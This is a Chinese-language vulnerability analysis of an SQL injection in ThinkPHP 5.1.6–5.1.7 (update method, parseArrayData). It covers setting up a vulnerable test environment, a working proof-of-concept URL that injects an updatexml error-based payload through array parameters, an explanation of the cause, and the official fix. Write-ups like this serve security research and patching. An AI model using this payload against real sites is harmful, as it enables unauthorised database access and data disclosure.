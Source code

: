 ```yaml
---
title: "5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）sql注入漏洞"
id: zhfly3167
---
```


# 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update** 方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData** 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生

## 二、漏洞影响

5.1.6<=ThinkPHP<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->where([‘id’ => 1])->update([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/9bc5749bd55273aeebb09d6fd739a278.png)

### 漏洞分析

![2.png](../img/dbf5f4580f62a31a38cf519ef3bea8f5.png)

首先在官方发布的 **5.1.9** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case** 语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](../img/7f8beb22add8072f65b0cc5987c1c321.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了 **Connection** 类的 **update** 方法，该方法又调用了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](../img/c528b37874292409ae482846130137fc.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData** 方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞** ，现已修复，然而却多了 **default** 代码段，而这段代码也是在新版本中被删除的。

![5.png](../img/0cdacc1d9fa0087c17ceef2d311c5ade.png)

我们跟进到 **parseArrayData** 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 **insert** 注入一样，用 **str_replace** 将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](../img/e2a71e1a6e9f3997ac4dd7392c6c0a47.png)

上面 **第15行** 的 **$result** 相当于 **$a('$b($c)')** 其中 **$a、$b、$c** 均可控。最后形成的 **SQL** 语句如下：

```
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1; 
```

接着我们想办法闭合即可。我们令 **$a = updatexml(1,concat(0x7,user(),0x7e),1)^** 、 **$b = 0** 、 **$c = 1** ，即：

```
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1 
```

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](../img/bec2322a446216006e65bef5fda52642.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](../img/3334bc5c91c90a0a6044d4c1a5ae7899.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln